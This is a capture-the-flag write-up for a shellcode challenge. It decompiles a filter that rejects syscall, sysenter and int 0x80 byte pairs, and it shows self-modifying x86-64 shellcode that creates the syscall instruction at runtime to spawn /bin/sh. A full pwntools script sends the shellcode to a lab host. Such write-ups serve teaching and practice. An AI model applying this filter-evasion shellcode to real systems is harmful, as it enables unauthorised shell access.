

## Description

	OH! So what if you can execute whatever you want! Do you think you can get a shell? ! Brrrrrr!

##### We are provided a binary that has little functionality and requests for us to send a spell and it will execute it. Opening this binary in Ghidra the following function is interesting.

```C
undefined8 forbidden(long buf)

{
  ulong i;
  
  i = 0;
  while( true ) {
    if (0x7e < i) {
      return 0;
    }
    if ((*(char *)(i + buf) == '\x0f') && (*(char *)(buf + i + 1) == '\x05')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(i + buf) == '\x0f') && (*(char *)(buf + i + 1) == '4')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(i + buf) == -0x33) && (*(char *)(buf + i + 1) == -0x80)) break;
    i = i + 1;
  }
  puts("Forbidden spell detected!");
  return 1;
}
```

##### This code is checks if our shellcode contains any form of syscall and if it doesn't our shellcode will be executed. We can bypass this restriction by writing our shellcode to self modify and create the syscall bytes dynamically.


#### Shellcode:

```
lea rdi, [rip+binsh]
xor rsi, rsi                  # Set up registers for a
xor rdx, rdx                  # execve("/bin/sh",0,0); call
mov rax, 59

inc BYTE PTR [rip]            # Dynamically create syscall
.byte 0x0e
.byte 0x05

binsh:
    .string "/bin/sh"
```

#### Full Exploit

```python
from pwn import *

context.arch = 'amd64'
context.binary = binary = ELF('./TryExecMe2', checksec=False)

shellcode = asm('''
        lea rdi, [rip+binsh]
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 59

        inc BYTE PTR [rip]
        .byte 0x0e
        .byte 0x05

        binsh:
        .string "/bin/sh"
        ''')


#p = process()
p = remote('10.10.102.129', 5002)

p.sendline(shellcode)

p.recvrepeat(1)
p.interactive()
```
